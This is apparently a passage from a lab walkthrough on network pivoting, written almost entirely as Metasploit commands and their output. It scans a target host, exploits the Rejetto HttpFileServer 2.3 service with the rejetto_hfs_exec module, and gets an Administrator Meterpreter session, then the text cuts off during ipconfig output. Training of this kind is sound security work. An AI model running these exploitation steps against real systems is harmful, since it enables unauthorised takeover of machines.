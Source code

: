 ```bash
service postgresql start && msfconsole -q
```

```bash
db_status
workspace -a Pivoting
db_nmap -sV 10.0.27.249
```

```bash
[*] Nmap: Not shown: 990 closed ports
[*] Nmap: PORT      STATE SERVICE            VERSION
[*] Nmap: 80/tcp    open  http               HttpFileServer httpd 2.3
[*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?
[*] Nmap: 49152/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49153/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49154/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49155/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49165/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### Exploitation <a href="#exploitation-6" id="exploitation-6"></a>

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set RHOSTS 10.0.27.249
exploit
```

```bash
meterpreter > sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
    
meterpreter > getuid
    Server username: WIN-OMCNBKR66MN\Administrator
    
meterpreter > ipconfig

    Interface  1
    ============
    Name         : Software Loopback Interface 1
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 4294967295
    IPv4 Address : 127.0.0.1
    IPv4 Netmask : 255.0.0.0
    IPv6 Address : ::1
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
    
    
    Interface 12 # Victim Machine 1's IP
    ============
    Name         : AWS PV Network Device #0
    Hardware MAC : 06:37:15:4c:b5:09
```